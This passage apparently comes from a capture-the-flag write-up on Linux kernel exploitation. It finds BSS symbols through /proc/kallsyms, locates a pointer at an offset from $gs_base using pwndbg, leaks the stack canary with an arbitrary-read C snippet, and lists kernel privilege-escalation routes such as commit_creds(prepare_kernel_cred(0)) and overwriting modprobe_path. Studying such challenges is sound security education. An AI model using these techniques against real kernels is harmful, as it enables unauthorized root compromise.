 ![](window-of-opportunity-3.jpg)

The `/proc/kallsyms` file stores all the symbols *(functions, variables, etc.)* and the corresponding addresses for the kernel. It also follows the same convention as `nm`. Thus we can easily search for BSS variables by using the following command

```sh
/ # grep " b " /proc/kallsyms | head
ffffffff96d3e000 b dummy_mapping
ffffffff96d3f000 b level3_user_vsyscall
ffffffff96d40000 b idt_table
ffffffff96d41000 b espfix_pud_page
ffffffff96d42000 b bm_pte
ffffffff96d43000 b scratch.0
ffffffff96d44010 b initcall_calltime
ffffffff96d44018 b panic_param
ffffffff96d44020 b panic_later
ffffffff96d44028 b execute_command
```

By scanning the BSS in memory in GDB, we can soon find an address that is at a relative offset from `$gs_base`.

```
pwndbg> x/gx 0xffffffff96d44050
0xffffffff96d44050:     0xffff9e870fcdb8c0
pwndbg> x/gx $gs_base
0xffff9e870f600000:     0x0000000000000000
pwndbg> pi hex(0xffffffff96d44050-0xffffffff94600000)
'0x2744050'
```

As you can see, there is a pointer at a relative offset to `$gs_base` stored in an offset of *0x2744050* from our kernel base address.

Based on this finding, we can easily leak our stack canary.

```c
unsigned long canary = aar(aar(kbase+0x2744050)-0x6db898);
printf("[*] canary at 0x%lx\n", canary);
```

![](window-of-opportunity-4.jpg)
_obtaining canary through our arbitrary read, assuming we know kernel base_

## Getting our hands dirty: KROP to root

With our canary and kernel base in hand, we are 60% to completing our exploit. All that's left to do is to execute kernel code to set our credentials to a root user _(UID 0)_.

In kernelspace exploitation challenges, there are usually a few ways to escalate your privileges, some of the more common ones are:

- overwrite modprobe\_path/core\_pattern
- commit\_creds(prepare\_kernel\_cred(0))
- overwrite cred structure
